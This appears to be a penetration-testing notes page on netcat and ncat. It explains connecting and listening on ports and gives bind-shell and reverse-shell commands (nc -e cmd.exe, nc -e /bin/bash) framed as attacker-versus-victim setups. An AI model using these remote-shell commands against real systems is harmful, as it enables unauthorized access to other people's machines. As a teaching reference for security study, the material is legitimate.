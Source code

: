 ```yaml
---
description: >-
  Purpose? - To establish connections on open ports and create listening ports
  on local machine | REVERSE SHELL Section in development
---
```


# Netcat/Ncat

#### This tool allows us to bind to a given port of a given IP address. It is of help when trying to send files between machines, developing exploit payloads that would serve a backdoor on a target.

The scope of this document limits to a discussion of how to use [netcat](https://nc110.sourceforge.io/)/[ncat ](https://nmap.org/ncat/)to connect to clients and serve opening ports

#### Connecting vs Listening

To attempt to establish a connection with TCP port:

```bash
nc -nv [destination ip] [destination port]
```

To listen on TCP port:

```text
nc -nvlp 4444
```

## Bind Shell: Attacker connects to a victim on listening PORTS

1. On Windows Machine - set netcat/ncat to listen on 4444/TCP:

   Once Netcat is running 'cmd line:' prompt will appear; we will pass it the command line executable.

   `nc -nvlp 4444 -e cmd.exe`

2. On Linux Machine - set netcat to connect to 4444/TCP:

   `nc -nv 192.168.2.1 4444 -e /bin/bash`

**In the Bind Shell case described in 1 & 2 the Windows machine is the victim that has been set up to listen on 4444/TCP**

## Reverse Shell: Victim connects to attacker on listening PORTS

This is the one you will be using the most

1. On Linux Machine - set netcat to listen on 4444/TCP:

   `nc -nvlp 4444`

2. On Windows Machine - connect to 192.168.2.130 machine on 4444/TCP:

   `C:\nc64.exe`

**Once Netcat is running 'Cmd line:' prompt will appear, using the -e switch, we pass the command line executable "cmd.exe" to the destination host:**

`Cmd line: -nv 192.168.2.130 4444 -e cmd.exe`

## [What is ncat?](https://nmap.org/ncat/)

It's just a modern implementation of netcat by the authors of [nmap](https://nmap.org/). They describe it as: 

"_Ncat is a feature-packed networking utility which reads and writes data across networks from the command line. Ncat was written for the Nmap Project as a much-improved re-implementation of the venerable_ [_Netcat_](http://sectools.org/tool/netcat/)_. It uses both TCP and UDP for communication and is designed to be a reliable back-end tool to instantly provide network connectivity to other applications and users. Ncat will not only work with IPv4 and IPv6 but provides the user with a virtually limitless number of potential uses._"

```groovy
  .       .       
  \`-"'"-'/       
   } 6 6 {        
  ==. Y ,==       
    /^^^\  .      
   /     \  )     
  (  )-(  )/     _
  -""---""---   / 
 /   Ncat    \_/  
(     ____        
 \_.=|____E       
```

